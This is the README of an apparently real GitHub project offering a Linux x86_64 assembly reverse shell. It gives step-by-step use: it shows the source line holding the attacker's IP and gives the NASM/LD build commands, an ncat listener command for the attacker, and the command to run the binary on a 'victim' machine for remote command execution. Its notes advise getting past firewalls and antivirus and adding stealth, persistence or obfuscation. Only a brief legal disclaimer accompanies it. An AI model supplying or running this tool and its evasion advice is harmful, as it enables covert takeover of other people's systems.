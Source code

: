# Reverse Shell in x86_64 Assembly

## Overview
This project is a simple **reverse shell** written in **x86_64 Assembly** for **Linux**. It connects back to an attacker's machine, allowing remote command execution on the target system.

![reverse-shell-1024x333](https://github.com/user-attachments/assets/9fd59e95-4cb7-4cae-b906-fddce59bd85f)


## Requirements
To use this reverse shell, you need the following:

- **Attacker's Machine** (Listening for the connection):
  - Install **Nmap** (includes `ncat`)
  - A terminal to run the `ncat` listener

- **Victim's Machine** (Executing the reverse shell):
  - Linux OS with support for x86_64 assembly
  - NASM (Netwide Assembler) for assembling the script
  - LD (GNU linker) to generate the final executable

## Setup
### 1. Edit the IP Address
Before compiling, update the script to reflect the attacker's IP address. Modify the following line:

```assembly
    at sin_addr,    dd 0x1E01A8C0   ; IP address of the attacker: 192.168.1.30 (little-endian)
```

To set your attacker's IP address, convert your **IPv4 address** into **little-endian** format and replace `0x1E01A8C0` accordingly. Example:

- If the attacker's IP is `192.168.1.30`, then in little-endian it is `0x1E01A8C0`.

## Compilation
Use **NASM** and **LD** to compile the script:

```bash
nasm -f elf64 reverse_shell.asm -o reverse_shell.o
ld reverse_shell.o -o reverse_shell
```

This will generate an executable named `reverse_shell`.

## Running the Reverse Shell
### 1. Start the Listener on the Attacker's Machine
On the **attacker's** machine, use `ncat` to listen for incoming connections:

```powershell
PS C:\Users\X> ncat -lvnp 12345
```

This command:
- `-l` (listen mode)
- `-v` (verbose mode)
- `-n` (numeric-only IP addresses, no DNS resolution)
- `-p 12345` (port 12345)

### 2. Execute the Reverse Shell on the Victim's Machine
On the **victim's** machine, run the compiled binary:

```bash
./reverse_shell
```

### 3. Gain Remote Shell Access
Once executed, you should receive a **shell session** on the **attacker's** machine via `ncat`.

You can now execute commands remotely on the victim's machine.

## Notes
- Ensure that **firewall rules** and **antivirus** do not block the connection.
- Modify the script for stealth, persistence, or obfuscation if required.

## Licensing

This reverse shell is released under the MIT license by DanielaCe18. Source code is available on GitHub.

## Disclaimer ⚠️

Usage of this reverse shell for attacking a target without prior consent of its owner is illegal. It is the end user's responsibility to obey all applicable local laws.

